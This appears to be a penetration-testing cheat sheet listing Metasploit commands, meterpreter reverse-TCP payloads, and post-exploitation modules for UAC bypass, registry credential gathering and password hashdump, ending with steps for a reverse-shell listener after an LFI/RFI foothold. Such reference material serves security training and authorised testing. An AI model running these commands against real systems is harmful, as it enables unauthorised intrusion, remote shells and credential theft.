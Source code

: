 If ARPspoof isn’t working for you for some reason, install dsniff because it includes ARPspoof.

## Metasploit Useful Commands

    search <exploit>
    use <id or exploit name>
    info
    show options
    show payloads
    set <payload/parameters>
    check
    run/exploit
    sessions
    sessions -l
    sessions -K
    sessions <id>
    sessions -i <id>
    back
    download <victim file> <our machine path to store>
    upload <path to file on our machine> <path to store on target>
    #After disabling UAC, we can run this directly on meterpreter
    run post/windows/gather/win_privs

### Useful exploits/payloads/modules

    Payloads:
    windows/meterpreter/reverse_tcp
    linux/x86/meterpreter/reverse_tcp
    
    # Get Windows Registry Login Credentials
    post/windows/gather/credentials/windows_autologin
    # Bypass UAC to elevate privileges with getsystem
    use exploit/windows/local/bypassuac
    run post/windows/gather/win_privs
    # Dumping Password Database
    use post/windows/gather/hashdump
    
    Modules:
    multi/handler



## Meterpreter reverse shell

1.  Find vulnerability in target (e.g. LFI/RFI)
2.  Set up a Metasploit listener

```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp # or any payload you wish
set lhost <MY IP>
set lport <PORT>  # set to a port open on the target to bypass firewall
run
```
